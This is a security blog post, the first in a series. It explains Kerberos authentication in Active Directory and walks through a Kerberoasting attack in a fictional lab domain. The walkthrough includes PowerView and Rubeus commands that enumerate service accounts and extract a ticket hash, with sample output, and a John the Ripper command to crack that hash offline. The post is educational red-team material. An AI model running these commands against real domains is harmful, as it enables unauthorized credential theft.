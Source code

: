 ```yaml
---
cover: https://i.postimg.cc/NjfMXj1G/Designer-1.jpg
title: "A Deep Dive into Kerberos: Understanding Kerberoasting and ASREPRoasting Attacks."
date: 8/23/2024 6:50:40 +06:00
categories: research
tags: [Kerberos, Kerberoasting, Asreproasting]
toc: true
toc_number: false
---
```

# Overview

Welcome to my three-part blog series! In this first part, I'll dive deep into how Kerberos works and take a closer look at Kerberoasting and ASREPRoasting attacks. In the next part, we'll explore Kerberos delegation, some of the architectural and design issues in Kerberos, and how attackers can exploit these weaknesses. The final part will be about Shadow Credentials.

Kerberos is one of the main authentication protocols in Active Directory, along with NTLM and LDAP. It's considered secure because it uses tickets to authenticate clients and servers, avoiding the need to store passwords locally. Plus, it involves a trusted third party, the Key Distribution Center (KDC), which also acts as the domain controller and uses built-in symmetric cryptography. However, as with any security system, Kerberos isn't perfect and has its vulnerabilities. We will be using (Rubeus)[https://github.com/GhostPack/Rubeus] throughout this blog which is one of the most sought after tool when it comes to attacking Kerberos.

# Kerberos Working

![Kerberos Working](https://i.postimg.cc/YqdDpdRn/Untitled-Diagram-drawio.png)

There are generally three things involved in kerberos authentication
- Client
- Service 
- KDC (Authentication Server, Ticket granting Server)

Supose a user wants to access a service in a office which uses Active Directory network like HTTP service for accessing web applications, CIFS service for accessing file shares, LDAP Service, Database Services like MYSQL and Postgresql for database administration or searching stuffs, SMTP service for sending emails, IMAP or POP3 service and many more. How does he/she access them? Inside KDC which is the Domain Controller there are two servers one is the Authentication Server which confirms that a known user is making an access request and issues a valid TGT and another is Ticket Granting Server which confirms that the user is making access request to a known service aka which exists in the domain and issues a ST service Ticket.

- **AS-REQ(Authentication Server Request):** The user requests TGT from the authentication server by sending an encrypted timestamp which is encrypted using the user's password.
- **AS-REP(Authentication Server Response):** The authentication server verifies the client and sends back TGT, this TGT is encrypted using password hash of krbtgt account. 
- **TGS-REQ(Ticket Granting Server Request):** Suppose the client wants to access MSSQL-2 service on dev.dhitalcorp.local domain, now the client sends the TGT along with SPN(service principal name) `alex\MSSQL-2$@dev.dhitalcorp.local` to the ticket granting server to request for a service ticket.
- **TGS-REP(Ticket Granting Server Response):** The Ticket granting server verifies the TGT and provides them ST(Service Ticket) for the requested service. This service ticket is encrypted using the ntlm hash of the service. The TGS doesnot verify if the client has access to the service or not it directly provides them service ticket after verifying their TGT, since the service ticket is encrypted using NTLM hash of the service kerberoasting attack comes into play in here.
- **AP-REQ(Authentication Protocal Request):** The client sends the service ticket to the service 
- **AP-RES(Authentication Protocal Response):** The service verifies if the client has access and grants access.
# Kerberoasting

Most services run on a machine under the context of a user account. Above in the TGS-REP step, the Ticket Granting Server (TGS) sends the client a Service Ticket for the service they requested, based on the SPN they provided. Part of this Service Ticket is encrypted with the password of the user account running that service. The TGS doesn’t check if the client actually has access to that service or not. This means that as a regular domain user, we can request service tickets for any service and then crack them offline to uncover the plaintext password of the user account running that service. 

As a regular domain user first list all kerberoastable accounts(service accounts running in the context of user accounts). We can use [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

```bash
PS C:\Users\Alex> Get-DomainUser -SPN

distinguishedName : CN=SQLService,OU=Service Accounts,DC=dev,DC=dhitalcorp,DC=local
enabled           : True
name              : mssql_svc
objectClass       : user
objectGUID        : 12345678-90ab-cdef-1234-567890abcdef
passwordExpired   : False
pwdLastSet        : 7/23/2024 12:34:56 PM
samAccountName    : mssql_svc
servicePrincipalName : MSSQLSvc/sql-1.dev.dhitalcorp.local:1433
userPrincipalName : SQLService@dev.dhitalcorp.local
```
We can request service ticket for this `mssql_svc` service account using Rubeus as below. We can also use PowerView itself as `Get-DomainUser -SPN mssql_svc | Get-DomainSPNTicket` or using [Invoke-Kerberoast](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/). If you want the hash in specific format for cracking we can also request it using OutputFormat as `Get-DomaintUser -SPN mssql_svc | Get-DomainSPNTicket -OutputFormat hashcat`. Below we are using Rubeus. 

```bash
PS C:\Users\Alex> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:mssql_svc /nowrap

[*] Action: Kerberoasting

[*] Target User  : mssql_svc
[*] Target Realm : DEV.DHITALCORP.LOCAL

[*] Searching for service tickets...

[*] ServicePrincipalName              : MSSQLSvc/sql-1.dev.dhitalcorp.local:1433
[*] UserName                          : mssql_svc
[*] UserDomain                        : DEV.DHITALCORP.LOCAL
[*] ServiceTicket (base64)            : <ticket data>

[*] RC4_HMAC(NT) hash for mssql_svc@DEV.DHITALCORP.LOCAL:
$krb5tgs$23$*mssql_svc$DEV.DHITALCORP.LOCAL$MSSQLSvc/sql-1.dev.dhitalcorp.local:1433*$D098E44F9B1C3CDE120A4A3DA2D32C4F$5C233E56F3C8B12F7D0B8A5DCC5A8D0C99E3B5F471D618F3B830C6F7E6FDE63DDA3C91C8E5A5D78F3A8B49A4E59CBFA2EED4A6B91FC3E671B1C8B08A9AC292FB
```
Remove the service principal name from the hash to crack using John. The hash should be in format `$krb5tgs$23$*mssql_svc$DEV.DHITALCORP.LOCAL*$D098E44F9B1C3CDE120A4A3DA2D32C4F$5C233E56F3C8B12F7D0B8A5DCC5A8D0C99E3B5F471D618F3B830C6F7E6FDE63DDA3C91C8E5A5D78F3A8B49A4E59CBFA2EED4A6B91FC3E671B1C8B08A9AC292FB`. We can crack this using John as follows.

```bash
┌──(alex㉿kali)-[~]
└─$ john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou2024.txt mssql_svc.txt
```
